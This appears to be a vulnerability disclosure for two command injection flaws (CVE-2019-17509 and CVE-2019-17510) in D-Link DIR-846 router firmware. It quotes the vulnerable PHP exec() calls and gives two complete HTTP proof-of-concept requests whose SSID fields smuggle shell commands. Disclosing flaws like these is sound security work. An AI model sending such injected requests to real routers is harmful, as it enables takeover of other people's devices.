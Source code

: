 ## info of vulnerability
There are remote RCE vulnerabilities in D-Link router due to invalid sanitization so attackers could execute arbitrary code. 

Vulnerable targets include but are not limited to the lastest firmware versions of DIR-846(100A35)

## First CVE-2019-17509
The first vulnerable code is in file /squashfs-root/www/HNAP1/control/SetMasterWLanSettings.php.
```php
          ......
11        $data["ssid0"] = trim($option["wl(1).(0)_ssid"]);
          .....
14        $data["ssid1"] = trim($option["wl(0).(0)_ssid"]);
          ......
70        $unicode_2 = $data["ssid1"];
71        exec("ssid_code set B2 2 ssid_tmp1 '" . $unicode_2 . "'");
72        $unicode_5 = $data["ssid0"];
73        exec("ssid_code set B5 0 ssid_tmp2 '" . $unicode_5 . "'", $str, $status2);
          ......
```
In page \/Wireless.html ,attacker could inject evil command into `exec` function, so PoC1 is:
```
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: application/json
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/json
SOAPACTION: "http://purenetworks.com/HNAP1/SetPasswdSettings"
HNAP_AUTH: D34C44D78E0DA072AE4E94B67361E182 1534384217127
Referer: http://192.168.0.1/account.html
Content-Length: 110
Cookie: loginpass=202cb962ac59075b964b07152d234b70; PHPSESSID=e5c635efde382dd2dd21a62b6649278f; uid=ac08Gage; PrivateKey=D7D42B5B2E20D9F30C0D44920DC56A58
DNT: 1
X-Forwarded-For: 8.8.8.8
Connection: close

{"SetMasterWLanSettings":{"wl(0).(0)_enable":"1","wl(0).(0)_ssid":"2.4'&&ifconfig>'/www/a.txt","wl(0).(0)_preshared_key":"aXJrZXJPZ2dNVEl6TkRVMk56Zz0=","wl(0).(0)_crypto":"aestkip","wl(1).(0)_enable":"0","wl(1).(0)_ssid":"5.0","wl(1).(0)_preshared_key":"aXJrZXJPZ2c=","wl(1).(0)_crypto":"none"}}
```
After this request,you can see the results from `ifconfig` in a.txt
![a.txt](a.jpg)

## Second CVE-2019-17510
The second vulnerable code is in file /squashfs-root/www/HNAP1/control/ SetWizardConfig.php.
```php
           ......
130        $data["ssid0"] = trim($option["wl(1).(0)_ssid"]);
           ......
134        $data["ssid1"] = trim($option["wl(0).(0)_ssid"]);
           ......
185        $unicode_2 = $data["ssid1"];
186        exec("ssid_code set B2 2 ssid_tmp1 $unicode_2");
187        $unicode_5 = $data["ssid0"];
188        exec("ssid_code set B5 0 ssid_tmp2 $unicode_5");
           ......
```
Attacker could also inject evil command into `exec` function easily, so PoC2 is:
```
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: application/json
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/json
SOAPACTION: "http://purenetworks.com/HNAP1/SetPasswdSettings"
HNAP_AUTH: D34C44D78E0DA072AE4E94B67361E182 1534384217127
Referer: http://192.168.0.1/account.html
Content-Length: 110
Cookie: loginpass=202cb962ac59075b964b07152d234b70; PHPSESSID=e5c635efde382dd2dd21a62b6649278f; uid=ac08Gage; PrivateKey=D7D42B5B2E20D9F30C0D44920DC56A58
DNT: 1
X-Forwarded-For: 8.8.8.8
Connection: close

{"SetWizardConfig":{"wl(1).(0)_ssid":"aaa&&touch /www/a.txt","wl(0).(0)_ssid":"aaa&&touch /www/a.txt"}}
```
